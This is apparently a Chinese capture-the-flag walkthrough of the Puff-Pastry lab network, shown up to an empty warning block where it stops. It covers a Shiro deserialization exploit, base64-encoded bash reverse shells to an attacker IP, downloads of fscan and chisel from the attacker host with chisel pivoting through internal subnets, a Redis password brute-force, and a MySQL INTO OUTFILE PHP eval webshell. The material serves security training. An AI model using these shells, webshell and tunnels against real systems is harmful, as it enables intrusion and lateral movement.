






# Puff-Pastry

:::info

靶场项目地址 [CTF-Archives/Puff-Pastry](https://github.com/CTF-Archives/Puff-Pastry)

:::

严格意义上来说，环境对外开放端口就是 `8080`

## Shiro 攻击

看到请求包里面有 `Remenberme` 字段，很明显就是打 Shiro 反序列化

使用 [SummerSec/ShiroAttack2: shiro 反序列化漏洞综合利用, 包含（回显执行命令 / 注入内存马）修复原版中 NoCC 的问题 https://github.com/j1anFen/shiro_attack](https://github.com/SummerSec/ShiroAttack2) 直接利用


## flag - Shiro

flag 文件位于 `/flag.txt`



## Shiro 内网扫描

首先先反弹 shell

```bash title="Shiro"
# /bin/bash -i >& /dev/tcp/192.168.200.129/9999 0>&1
$ echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjAwLjEyOS85OTk5IDA+JjE= | base64 -d > /tmp/shell.sh
$ chmod +x /tmp/shell.sh
$ ls -lh /tmp/shell.sh
-rwxr-xr-x 1 root root 50 Jul 25 03:04 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

即可收到回连的 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[11:02:56] Welcome to pwncat 🐈!
[11:05:45] received connection from 192.168.200.2:34432
[11:05:45] 192.168.200.2:34432: registered new host w/ db
(local) pwncat$ back
(remote) root@31b77ed217da:/# whoami
root
```

从攻击机上下载 `fscan` 二进制文件，查看网段信息

```bash
(remote) root@31b77ed217da:/tmp# wget 192.168.200.129/fscan
--2024-07-25 03:10:17--  http://192.168.200.129/fscan
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: ‘fscan’

fscan                                               100%[===================================================================================================================>]   6.77M  --.-KB/s    in 0.04s

2024-07-25 03:10:17 (152 MB/s) - ‘fscan’ saved [7100304/7100304]

(remote) root@31b77ed217da:/tmp# chmod +x fscan
(remote) root@31b77ed217da:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.3  netmask 255.255.255.0  broadcast 192.168.100.255
        ether 02:42:c0:a8:64:03  txqueuelen 0  (Ethernet)
        RX packets 1023  bytes 15481580 (14.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 755  bytes 64521 (63.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

并执行网段扫描（结果已排除宿主机）

```plaintext
start infoscan
(icmp) Target 192.168.100.2   is alive
(icmp) Target 192.168.100.3   is alive
[*] Icmp alive hosts len is: 3
192.168.100.2:80 open
192.168.100.2:9000 open
192.168.100.3:8080 open
[*] alive ports len is: 6
start vulscan
[+] FCGI 192.168.100.2:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.33
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[*] WebTitle http://192.168.100.2      code:200 len:931    title:None
[*] WebTitle http://192.168.100.3:8080 code:302 len:0      title:None 跳转 url: http://192.168.100.3:8080/login;jsessionid=ECF003F339B02D6026C308A9C8B0E8C2
[*] WebTitle http://192.168.100.3:8080/login;jsessionid=ECF003F339B02D6026C308A9C8B0E8C2 code:200 len:2608   title:Login Page
[+] PocScan http://192.168.100.2 poc-yaml-thinkphp5023-method-rce poc1
[+] PocScan http://192.168.100.3:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
```

## Net 192.168.100.0/24

```plaintext
Thinkphp - 192.168.100.2
[+] PocScan http://192.168.100.2 poc-yaml-thinkphp5023-method-rce poc1

Shiro - 192.168.100.3
[+] PocScan http://192.168.100.3:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
```

## Shiro 端口转发

由于需要访问内网的 Thinkphp 服务，就需要搭建代理隧道

```bash title="Kali"
┌──(randark ㉿ kali)-[~/tools/chisel-v1.9.1]
└─$ ./chisel_1.9.1_linux_amd64 server -p 1331 --reverse &
[1] 1846492
2024/07/25 11:18:01 server: Reverse tunnelling enabled
2024/07/25 11:18:01 server: Fingerprint CG5EKTNIsW4ByFzEmmK2qMxfuLVm6Cegnhee/wABfqk=
2024/07/25 11:18:01 server: Listening on http://0.0.0.0:1331
```

```bash title="Shiro"
(remote) root@31b77ed217da:/tmp# wget 192.168.200.129/chisel_1.9.1_linux_amd64
--2024-07-25 03:17:13--  http://192.168.200.129/chisel_1.9.1_linux_amd64
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel_1.9.1_linux_amd64’

chisel_1.9.1_linux_amd64                            100%[===================================================================================================================>]   8.25M  --.-KB/s    in 0.1s

2024-07-25 03:17:13 (78.8 MB/s) - ‘chisel_1.9.1_linux_amd64’ saved [8654848/8654848]

(remote) root@31b77ed217da:/tmp# chmod +x chisel_1.9.1_linux_amd64
(remote) root@31b77ed217da:/tmp# ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:10001:192.168.100.2:80 &
[1] 216
2024/07/25 03:20:24 client: Connecting to ws://192.168.200.129:1331
2024/07/25 03:20:24 client: Connected (Latency 1.096734ms)
```

在服务端上成功建立端口转发

```bash
2024/07/25 11:20:24 server: session#4: tun: proxy#R:10001=>192.168.100.2:80: Listening
```

## Thinkphp 攻击

使用 [bewhale/thinkphp_gui_tools: ThinkPHP 漏洞综合利用工具, 图形化界面, 命令执行, 一键 getshell, 批量检测, 日志遍历, session 包含, 宝塔绕过](https://github.com/bewhale/thinkphp_gui_tools) 直接打

首先进行漏洞检测


发现以下漏洞信息

```plaintext
[+] 目标存在 tp5_construct_code_exec_2 漏洞
[+] 目标存在 tp5_construct_code_exec_1 漏洞
[+] 目标存在 tp5_session_include 漏洞
```

尝试进行利用


## flag - Thinkphp

flag 文件位于 `/flag.txt`



## Thinkphp 反弹 shell

经过检测，靶机 `Thinkphp` 可以出网，所以可以直接反弹 shell

```bash title="Thinkphp"
# /bin/bash -i >& /dev/tcp/192.168.200.129/9998 0>&1
$ echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjAwLjEyOS85OTk4IDA+JjE= | base64 -d > /tmp/shell.sh
$ chmod +x /tmp/shell.sh
$ ls -lh /tmp/shell.sh
-rwxr-xr-x    1 www-data www-data      50 Jul 25 03:28 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

接收到反连的 shell

```bash title="Kali"
(local) pwncat$ connect -lp 9998
[11:30:22] received connection from 192.168.200.2:47244                                                                                                                                               bind.py:84
[11:30:23] 192.168.200.2:47244: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) www-data@4c2afff6c232:/var/www/public$ whoami
www-data
```

## Thinkphp 内网扫描

从攻击机上获取 `fscan` 二进制文件

```bash
(remote) www-data@4c2afff6c232:/tmp$ wget 192.168.200.129/fscan
--2024-07-25 03:35:58--  http://192.168.200.129/fscan
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: 'fscan'

fscan                                               100%[===================================================================================================================>]   6.77M  --.-KB/s    in 0.05s

2024-07-25 03:35:58 (139 MB/s) - 'fscan' saved [7100304/7100304]

(remote) www-data@4c2afff6c232:/tmp$ chmod +x fscan
```

查看网卡信息

```bash
(remote) www-data@4c2afff6c232:/tmp$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:C0:A8:64:02
          inet addr:192.168.100.2  Bcast:192.168.100.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2900 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2147 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:9380898 (8.9 MiB)  TX bytes:1208962 (1.1 MiB)

eth1      Link encap:Ethernet  HWaddr 02:42:0A:55:65:03
          inet addr:10.85.101.3  Bcast:10.85.101.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:15 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:1146 (1.1 KiB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5675 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5675 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3540984 (3.3 MiB)  TX bytes:3540984 (3.3 MiB)
```

发现了一个新的 `10.85.101.0/24` 网段，尝试进行网段扫描

```bash
start ping
(icmp) Target 10.85.101.3     is alive
(icmp) Target 10.85.101.2     is alive
(icmp) Target 10.85.101.4     is alive
[*] Icmp alive hosts len is: 4
10.85.101.4:80 open
10.85.101.2:6379 open
10.85.101.4:9000 open
10.85.101.3:9000 open
10.85.101.3:80 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://10.85.101.4        code:200 len:19411  title:phpMyAdmin
[+] FCGI 10.85.101.4:9000
Status: 403 Forbidden
X-Powered-By: PHP/8.2.8
Content-type: text/html; charset=UTF-8

Access denied.
[*] WebTitle http://10.85.101.3        code:200 len:931    title:None
[+] FCGI 10.85.101.3:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.33
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[+] InfoScan http://10.85.101.4        [phpMyAdmin]
[+] PocScan http://10.85.101.4 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.3 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.3 poc-yaml-thinkphp5023-method-rce poc1
```

## Net 10.85.101.0/24

```plaintext
phpMyAdmin - 10.85.101.4
Thinkphp - 10.85.101.3
Redis - 10.85.101.2
```

## Thinkphp 端口转发

由于 `10.85.101.0/24` 内的服务较多，所以直接进行 socks 转发

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ wget 192.168.200.129/chisel_1.9.1_linux_amd64
--2024-07-25 03:44:11--  http://192.168.200.129/chisel_1.9.1_linux_amd64
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel_1.9.1_linux_amd64'

chisel_1.9.1_linux_amd64                            100%[===================================================================================================================>]   8.25M  --.-KB/s    in 0.06s

2024-07-25 03:44:11 (136 MB/s) - 'chisel_1.9.1_linux_amd64' saved [8654848/8654848]

(remote) www-data@4c2afff6c232:/tmp$ chmod +x chisel_1.9.1_linux_amd64 &
[1] 833
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:10002:socks
2024/07/25 03:45:09 client: Connecting to ws://192.168.200.129:1331
2024/07/25 03:45:09 client: Connected (Latency 2.88257ms)
```

成功建立 socks 代理

```bash title="Kali"
2024/07/25 11:45:28 server: session#6: tun: proxy#R:10002=>socks: Listening
```

## Redis 连接数据库

将 `10.85.101.2:6379`Redis 服务转发出来

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:16379:10.85.101.2:6379
2024/07/25 04:56:13 client: Connecting to ws://192.168.200.129:1331
2024/07/25 04:56:13 client: Connected (Latency 755.012µs)
```

成功建立转发

```bash title="Kali"
2024/07/25 12:56:13 server: session#16: tun: proxy#R:16379=>10.85.101.2:6379: Listening
```

然后使用 [vgo0/redisbrute: Rust based Redis AUTH bruteforcer with support for ACLs](https://github.com/vgo0/redisbrute) 进行爆破

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ ./redisbrute --ip 127.0.0.1 --port 16379 --passwords /usr/share/wordlists/rockyou.txt
[+] Valid password found - 12345
```

## flag - Redis

爆破的到密码之后，进入数据库

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ redis-cli -h 127.0.0.1 -p 16379 -a "12345"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:16379> KEYS *
1) "flag"
127.0.0.1:16379> GET flag
"WSS-Studio{Redis-870ed89a-6658-4350-8d17-9f293df5c6b1}"
```

## phpMyAdmin 弱密码

浏览器设置代理，访问 `http://10.85.101.4/`



- 数据库地址 `localhost`
- 用户名 `root`
- 密码 `root`

登录进 phpMyAdmin


## flag - Mysql

在数据库中，可以找到 flag


## phpMyAdmin 借助 Mysql 写入 Webshell

首先，先检查安全参数

```sql
show global variables like '%secure%'
```


可以看到 `secure_file_priv` 变量为空，可以任意指定文件的位置

```sql
select '<?php @eval($_POST["shell"])?>' into outfile '/var/www/html/shell.php'
```


访问 `/shell.php`


确定文件被写入，尝试使用蚁剑进行连接


## flag - phpMyAdmin

连接成功，成功读取到 flag


## phpMyAdmin 反弹 shell

由于 phpMyAdmin 存在于隔离内网


首先，在 `Thinkphp` 主机上建立内网 -> 外网的端口转发

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 8888:0.0.0.0:8888
[2] 2075
2024/07/25 05:42:33 client: Connecting to ws://192.168.200.129:1331
2024/07/25 05:42:33 client: tun: proxy#8888=>0.0.0.0:8888: Listening
2024/07/25 05:42:33 client: Connected (Latency 1.35978ms)
```

然后执行反弹 shell（反弹到 Thinkphp - 10.85.101.3）

- phpMyAdmin(10.85.101.4) --Reverse Shell--> Thinkphp(10.85.101.3 & 192.168.100.2):8888
- Thinkphp(10.85.101.3 & 192.168.100.2):8888 --Port Forawrd--> Kali(192.168.200.129):8888



成功收到反弹的 shell

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59516
whoami
root
```

## phpMyAdmin 内网扫描

查看网卡信息

```bash
da2bf9a19d9a:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:0A:55:65:04
          inet addr:10.85.101.4  Bcast:10.85.101.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3001 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3083 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:30269681 (28.8 MiB)  TX bytes:11652578 (11.1 MiB)

eth1      Link encap:Ethernet  HWaddr 02:42:AC:38:66:04
          inet addr:172.56.102.4  Bcast:172.56.102.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3395 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:1164483 (1.1 MiB)  TX bytes:2514596 (2.3 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:6392 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6392 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:42846495 (40.8 MiB)  TX bytes:42846495 (40.8 MiB)
```

发现一个新的 `172.56.102.0/24` 网段

借助蚁剑，上传 `fscan` 之后进行扫描

```bash
start infoscan
(icmp) Target 172.56.102.1    is alive
(icmp) Target 172.56.102.2    is alive
(icmp) Target 172.56.102.3    is alive
(icmp) Target 172.56.102.4    is alive
[*] Icmp alive hosts len is: 4
172.56.102.4:9000 open
172.56.102.4:80 open
172.56.102.1:22 open
172.56.102.2:5432 open
172.56.102.3:8009 open
172.56.102.3:8080 open
[*] alive ports len is: 6
start vulscan
[+] FCGI 172.56.102.4:9000
Status: 403 Forbidden
X-Powered-By: PHP/8.2.8
Content-type: text/html; charset=UTF-8

Access denied.
[*] WebTitle http://172.56.102.4       code:200 len:19411  title:phpMyAdmin
[+] InfoScan http://172.56.102.4       [phpMyAdmin]
[+] Postgres:172.56.102.2:5432:postgres password
[*] WebTitle http://172.56.102.3:8080  code:200 len:90     title:$Title$
[+] PocScan http://172.56.102.3:8080 poc-yaml-struts2_045 poc1
```

## Net 172.56.102.0/24

```plaintext
phpMyAdmin - 172.56.102.4
Postgres - 172.56.102.2
Struts2 - 172.56.102.3
```

## phpMyAdmin 建立二层内网转发

由于二层内网无法直接连接到外网的代理隧道服务器，所以需要基于端口转发建立到二层内网的代理

手动分析网段的结构，绘制结构图


根据结构图可以知道，需要在 `Thinkphp` 这台靶机上做一个端口转发，然后在 `phpMyAdmin` 上建立代理隧道

将 `chisel_1.9.1_linux_amd64` 二进制文件传输到 `phpMyAdmin` 上

建立端口转发

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 1331:1331
2024/07/25 06:53:43 client: Connecting to ws://192.168.200.129:1331
2024/07/25 06:53:43 client: tun: proxy#1331=>1331: Listening
2024/07/25 06:53:43 client: Connected (Latency 1.574777ms)
```

:::warning

